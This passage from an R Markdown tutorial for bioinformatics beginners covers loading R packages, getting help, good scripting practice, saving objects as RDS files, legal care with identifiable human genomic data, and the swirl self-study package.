library(package="dplyr") # or just library(dplyr)
```

If the requested package is not locally installed, this will raise an error.

If there is no error message, it implies that the package is loaded.

When a package is loaded, all its content (functions, objects, datasets, ...) are accessible and loaded into RAM.


> NOTE 1 : when a package is loaded, its box in the 'Packages' pane is ticked.

> NOTE 2 : There is an exception to the package invocation requirement : when one calls a function with disambiguation syntax `package::function()`, only the requested function is loaded into memory for the duration of its exectution, then detached.

Then you can try :

```{r use_package}
help(topic="arrange", package="dplyr")
```

And search for help about how to run your command.

Alternatively, there is a more complete help page at the package, reached with the [`browseVignettes()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/browseVignettes) function. It opens in your browser automatically (or in the Rstudio browser, depending on your configuration), and if you click on "HTML", you get some information about the package like functions, tutorials, etc.

> NOTE : However, such a vignette is facultative in a R package : its presence only depends on the will of the package coder(s).

```{r vignette_package}
browseVignettes(package="dplyr")
```

## TLDR – Too Long Didn't Read

```{r packages_tldr}
# Install a CRAN package
install.packages("BiocManager")

# Load a package
library("BiocManager")

# Install a BioConductor package
BiocManager::install("DESeq2")

# Get help
browseVignettes(package="DESeq2")
```

# Tips for your project

## Write a good script

Good practices (for your sake, and the one of any future reader of your code) :

 - write a documentation (a header at the start of the script which explains the purpose of the script, an explanation of the parameters you setup, and the analysis steps, for example)
 - use comments (uninterpreted line, starting with `#`)
 - use code indentation (spaces before code line that shows their hierarchical structure)
 - use humanly-understandable variable names
 - do not nest too many functions inside each other, this will soon be a mess
 
```{r bad_good_example, eval=FALSE}
### BAD ; difficult to understand
    print(rowMeans(data.frame(c(9, 14, 17, 9, 13),
c(11, 10, 20, 7, 17),c(15, 8,      19, 10, 15)   ))       )

### GOOD : easy to understand
## Goal: this script computes the mean of the expression of our 3 samples for each gene:
#create a dataframe with the genes expression of our 3 samples:
example_data_frame <- data.frame("Expression_Sample_1" = c(9, 14, 17, 9, 13),
                                 "Expression_Sample_2" = c(11, 10, 20, 7, 17),
                                 "Expression_Sample_3" = c(15, 8, 19, 10, 15)
                      )
#add corresponding genes names into row names:
rownames(example_data_frame) <- c("Caml", "Scamp5", "Dgki", "Mas1", "Apba1")
#compute the mean of the expression for each gene:
mean_expression_Samples123 <- rowMeans(example_data_frame)
#print the result:
print(mean_expression_Samples123)
```
 
 - save your script frequently, as well as your working environment
 - save the versions of the loaded packages at the end of your analysis (you can print loaded packages thanks to the [`sessionInfo()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/sessionInfo) function and save the result into an on-disk file thanks to the [`capture.output()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/capture.output)) function.
 
```{r sessionInfo, eval=TRUE}
sessionInfo() #displays name and version of loaded packages in the console
```
```{r sessionInfo_capture, eval=FALSE}
utils::capture.output(sessionInfo(), file = "sessionInfo.txt") #save them in a file
```

## Load and save R objects

While working on your projects, you will process datasets in R. The results of these analyses will be stored in variables. All these are stored _in memory_, which is volatile. This means, when you close RStudio, any unsaved object will be lost.

We already depicted the [`save.image()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/save) function to save a copy of your **complete** working environment.

However, you can save _only the content of a given variable_, solely. This is useful when you want to save the result of a function (or a pipeline) but not the whole 5 hours of trials and error work you've been spending on how-to-make-that-bloody-pipeline-work-correctly.

The (compressed) format to save an object is called  [RDS](https://www.r-bloggers.com/2016/12/remember-to-use-the-rds-format/) for R Data Serialization. This is done using the [`saveRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS) function :

```{r save_rds_use, eval=FALSE}
saveRDS(object = example_table, file = "example_table.RDS")
```

Hopefully, you can load a RDS content into a variable ! This is useful when you receive a RDS from a coworker, or you'd like to keep going your work from a saved point. This is done with the [`readRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS) function :

```{r load_rds, eval=FALSE}
example_table <- readRDS(file = "example_table.RDS")
```

> NOTE : You can see in the example above that loading an object save as a RDS requires to inject it in a _variable_. This means that the RDS contains the object, but unnamed. This is not the case when saving an environment (using `save()`), as _all_ loaded objects are saved, thus their respective names are kept.

## Human data

<span style="color:#CD853F"> WARNING : If you hold human-related genomic datasets that can allow person identification (ie, sequences), you cannot use/upload these data anywhere without control. This is strictly illegal, and such behavior may take your for up to 5 years in jail, assorted to a 300 000€ fine. [Art. 226-16, Section 5, Code pénal](https://www.cnil.fr/fr/les-sanctions-penales).</span>

## Packages update

It is a good practice to maintain package versions within a work project. If you update a package (whether by need, or by will), then you should restart your work from the start. This stands as long as you're not 100% sure the update does not affect your results.

# The Swirl package

What if I would like to pursue learning R by myself, when I can or want ?


## What is swirl?

[`swirl`](https://swirlstats.com/) is an R package that teaches you R programming and data science interactively, at your own pace, and straight into the R console.

It presents a choice of course lessons and interactively tutors a student through them, with multiple levels of complexity. A student may be asked to watch a video, to answer a multiple-choice or fill-in-the-blanks question, or to enter a command in the R console precisely as if he or she were using R in practice. Emphasis is on the last, interacting with the R console. User responses are tested for correctness and hints are given if appropriate.

Progress is automatically saved so that one may quit at any time and later resume without losing anything.

## Installation and usage

```{r swirl, eval=FALSE}
#install package
install.packages("swirl")
#load package
library(swirl)
#install the R course for 
install_course("R Programming")
#start the course
swirl()
```
Enjoy!

<details>
<summary>Other useful command lines for swirl usage</summary>

```{r swirl_add, eval=FALSE}
#quit swirl
bye()
#skip a question
skip()
#return to the main menu
main()
#allow experimentation in the R console without interference from swirl
play()
#to resume interacting with swirl
nxt()
#display a help menu
info()
```

</details>

# Conclusion

No programming language is better than any other. They all serve different purposes. Anyone telling the opposite is (over)-specialized in the language they are advertising (and probably have a strong lack of objectivity.

In the field of bioinformatics, languages used by the community are quite limited. The main, widely adopted options are :

- [_bash_](https://www.gnu.org/software/bash/)
- [_R_](https://www.r-project.org/)
- [_Python_](https://www.python.org/).

While learning [_bash_](https://www.gnu.org/software/bash/) cannot be escaped nowadays to interact with a HPC, it is not enough to perform a complete analysis with publication-ready figures and shaped results. You should get interest in another programming language: [_R_](https://www.r-project.org/) and/or [_Python_](https://www.python.org/). R allows you to do a lot of different analyses, and it has a large user community with lots of online resources for help. As such, it's one of the easiest languages for beginners.

Please, note that this advice is valid today, but may change. Mainy other programming languages are used, some have lost their place on the podium, and others are trying to supersede [_bash_](https://www.gnu.org/software/bash/), [_R_](https://www.r-project.org/), and [_Python_](https://www.python.org/). An example is [_Julia_](http://julialang.org/)

<div style="float: right;">Thibault: "Anyway [_Python_](https://www.python.org/) is the best programming language in the WORLD. Don't listen to Bastien."</div>

<div style="float: right;">Bastien: "Huh, Thibault.. Remember when one talked about _objectivity_ ? :p"</div>


